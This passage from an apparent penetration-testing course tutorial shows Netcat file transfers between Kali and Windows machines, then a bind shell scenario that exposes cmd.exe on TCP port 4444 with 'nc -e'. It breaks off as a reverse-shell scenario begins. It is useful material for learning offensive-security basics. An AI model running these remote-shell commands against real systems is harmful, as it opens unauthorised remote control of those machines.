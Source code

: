 C:\Users\offsec> nc -nlvp 4444 > incoming.exe

" Using nc to receive a file "

On the Kali system, we will push the wget.exe file to the Windows machine through TCP port 4444:

kali@kali:~$ locate wget.exe

/usr/share/windows-resources/binaries/wget.exe

kali@kali:~$ nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe

" Using nc to transfer a file "

The connection is received by Netcat on the Windows machine as shown below:

C:\Users\offsec> nc -nlvp 4444 > incoming.exe

" Connection received on Windows "


Netcat Bind Shell Scenario
--------------------------------------------

In our first scenario, Bob (running Windows) has requested Alice’s assistance (who is running Linux) and has asked her to connect to his computer and issue some commands remotely. Bob has a public IP address and is directly connected to the Internet.

Alice, however, is behind a NATed connection, and has an internal IP address. To complete the scenario, Bob needs to bind cmd.exe to a TCP port on his public IP address and asks Alice to connect to his particular IP address and port.

Bob will check his local IP address, then run Netcat with the -e option to execute cmd.exe once a connection is made to the listening port:

C:\Users\offsec> ipconfig

C:\Users\offsec> nc -nlvp 4444 -e cmd.exe

" Using nc to set up a bind shell "

Now Netcat has bound TCP port 4444 to cmd.exe and will redirect any input, output, or error messages from cmd.exe to the network. In other words, anyone connecting to TCP port 4444 on Bob’s machine (hopefully Alice) will be presented with Bob’s command prompt. This is indeed a “gaping security hole”!

kali@kali:~$ ip address show eth0 | grep inet

kali@kali:~$ nc -nv 10.11.0.22 4444

" Using nc to connect to a bind shell "

 


Reverse Shell Scenario
-------------------------------------

In our second scenario, Alice needs help from Bob. However, Alice has no control over the router in her office, and therefore cannot forward traffic from the router to her internal machine. In this scenario, we can leverage another useful feature of Netcat; the ability to send a command shell to a host listening on a specific port. In this situation, although Alice cannot bind a port to /bin/bash locally on her computer and expect Bob to connect, she can send control of her command prompt to Bob’s machine instead. This is known as a reverse shell. To get this working, Bob will first set up Netcat to listen for an incoming shell. We will use port 4444 in our example:
